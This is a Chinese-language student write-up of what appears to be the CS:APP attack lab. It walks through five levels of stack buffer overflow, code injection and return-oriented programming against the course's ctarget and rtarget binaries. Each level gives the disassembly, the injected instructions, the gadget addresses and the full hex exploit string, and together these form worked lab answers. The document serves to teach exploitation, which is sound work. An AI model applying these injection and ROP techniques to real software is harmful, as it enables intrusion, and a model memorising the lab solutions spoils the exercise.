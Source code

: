 本次lab的内容是利用程序的缓冲区溢出攻击程序。程序进行函数调用时会先把返回地址压入栈中，然后读入数据至缓冲区，若没有防止溢出的机制，过长的输入将覆盖返回地址，从而将程序导向其他地方（bomb！）

##### level1

从官方的手册可知，程序首先执行test()，在函数内调用getbuf()读入字符串然后结束返回test()，打印no exploit，我们要做的就是在打印no exploit之前将程序引向touch1引爆炸弹。

从getbuf入手，让它跳转至touch而非返回，来看getbuf的代码（先objdump ctarget）

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	move   %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
```

getbuf开辟0x28即40B的栈空间即缓冲区，用get读入字符串后返回，当然在开辟空间前还进行了test地址压栈。知道了这个栈帧情况就很容易攻击了，可以先读入40B字符，然后再读入touch1的地址，读入数据大于40B导致缓冲区溢出，最后读入的touch1地址将覆盖test的地址。

touch1的地址是0x4017c0，考虑小端存储答案为：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

![1](img/1.png)



##### level2

touch2需要读入一个参数，当参数为cookie时才能通过，根据提示知参数存在rdi里。源代码里没有输入cookie的语句，所以我们要自己编写相关代码，然后注入代码的地址，让程序执行指定的代码。

注入的代码应该实现两个功能：1、把cookie值移动到rdi中，2、跳转到touch2处

```assembly
movq $0x59b997fa, %rdi
pushq $0x4017ec
ret
```

使用gcc生成.o目标文件，然后反汇编生成汇编代码：

```assembly
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

这样就得到了我们的代码的地址，但怎么让程序执行它们（跳到该地址）呢？可以参考上一题借用test的返回地址，用这些地址的地址覆盖test的返回地址。这些地址的地址是什么？它们保存在getbuf的栈帧里，地址就是栈顶指针rsp的值。

利用gdb在getbuf分配完栈空间后即0x4017ac处打断点，r执行之后info r rsp查看执行完getbuf后rsp的值，得到结果为0x5561dc78。所以我们在前40B保存我们代码的地址，再利用缓冲区溢出覆盖test的返回地址，使程序到我们制定的地址执行我们的代码。

```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

![2](img/2.png)



##### level3

本关也需要输入字符串然后匹配，touch3要读入字符串的地址，cookie存在哪？手册提示hexmatch使用了栈随机化，很可能覆盖getbuf的栈空间，应该把cookie存在test的栈帧里。

利用上面info r rsp的方法找到test的rsp指针0x5561dca8，要把cookie存到此处，在编写自己的代码是就把该地址放入rdi寄存器，touch3的地址是0x4018fa，所以汇编写成：

```assembly
movq $0x5561dca8, %rdi
pushq $0x4018fa
ret
```

反汇编后得到代码地址，同样要用gebuf的栈顶地址0x5561dc78覆盖test的返回地址，以便执行这些代码，然后读入cookie（要转为ascii码）

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

![3](img/3.png)



##### level4

上面三关是利用缓存区溢出进行代码注入攻击（CIA），后面的两关程序采用了防护方式无法进行代码注入，它们需使用面向返回（ROP）的攻击方式。

ROP的思路是既然无法注入自己的代码，那就在原代码中找我们需要的片段，然后拼凑成需要的程序

重复level2，我们需要把cookie的值移到rdi中，但不能编写汇编。可以先读入cookie，然后执行pop rdi，但给的gadget中没找到pop rdi，需要做一下中转。先找到pop rax的代码，查表知其编码为58，在rtarget的汇编中搜索58，可以在0x4019b5处找到，58具体的地址是0x4019ab

```assembly
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
```

再找mov rax rdi的汇编，其编码为48 89 c7，在如下地方找到，具体地址为0x4019a2

```assembly
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
```

于是有了答案：先读入40B空字符，然后分别读入0x4019ab、cookie、0x4019a2、touch2的地址

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

![4](img/4.png)



##### level5

实验做到这就差不多了，该掌握的方法都过了一遍，这关是一个大综合，需要组织汇编然后在rtarget中找到相应的gadget，和上题一样注入，最后答案为：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
ad 1a 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
cc 19 40 00 00 00 00 00 
48 00 00 00 00 00 00 00 
dd 19 40 00 00 00 00 00 
70 1a 40 00 00 00 00 00 
13 1a 40 00 00 00 00 00 
d6 19 40 00 00 00 00 00 
a2 19 40 00 00 00 00 00 
fa 18 40 00 00 00 00 00 
35 39 62 39 39 37 66 61
```

![5](img/5.png)

